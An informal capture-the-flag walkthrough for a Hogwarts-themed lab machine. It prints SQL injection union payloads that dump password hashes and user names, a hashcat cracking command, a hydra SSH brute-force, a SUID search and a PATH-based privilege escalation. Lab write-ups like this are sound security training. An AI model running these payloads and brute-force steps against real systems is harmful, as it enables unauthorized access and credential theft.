 ```export IP=10.10.79.129```

1. ```hogwartz-castle.thm``` - add the above hostname to `/etc/hosts` or your host file

got some sqli going on here but sqlmap doesn't show much to me... "The password for Lucas Washington is incorrect! contact administrator. Congrats on SQL injection... keep digging"
time to learn sqli at bit more than ```' or 1=1--``` ? lets open burp to do some stuff

after some years..
```
user=admin%27+or+1%3D1+union+select+NULL,NULL,NULL,NULL--
user=admin%27+or+1%3D1+order+by+5--
```
both of these above leads us in believing we have 4 columns returning

different messages we go during above steps - The password for Aaliyah Allen is incorrect!, Gianna Harris, Andrea Phillips

```user=admin%27+or+1%3D1+union+select+NULL,NULL,NULL,group_concat(password,':')+from+users--```
"error":"The password for None is incorrect! c53d7af1b..."

```user=admin'+union+select+(SELECT+group_concat(notes)+FROM+'users'),NULL,NULL,NULL--``` => this hints us that the encyption used is sha512 with best64 rule
```user=admin'+union+select+(SELECT+group_concat(name)+FROM+'users'),NULL,NULL,NULL--``` => usernames => users.txt

one of the above passwords were cracked with hashcat
```hashcat -m 1700 hashlist /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule```

```echo "Luca ...  ... hy" | tr ',' '\n' | awk '{ print $1 }' | tr '[:upper:]' '[:lower:]' >> users.txt```

now lets do hydra using above user list and the cracked password

```hydra -L users.txt -p wi**23 ssh://$IP:22``` => gives us username and password(we already know this)

okay, now user1.txt and user2.txt are pretty straightforward

```find / -type f -perm /4000 2>/dev/null``` => gives us some binary with suid rights that has a weird name, so lets try to reverse that one, (/srv/time-turner/swagger)

analyse the binary, and if ypu're able to do what the binary does, only thing left would be exploit the binary using the PATH variable, (exploit is exp.c)

2. smbshares - ```smbclient -N //$IP/smabashare```

got 2 files .notes, spellnames
Hermonine, Hagrid, Lucas - usernames ?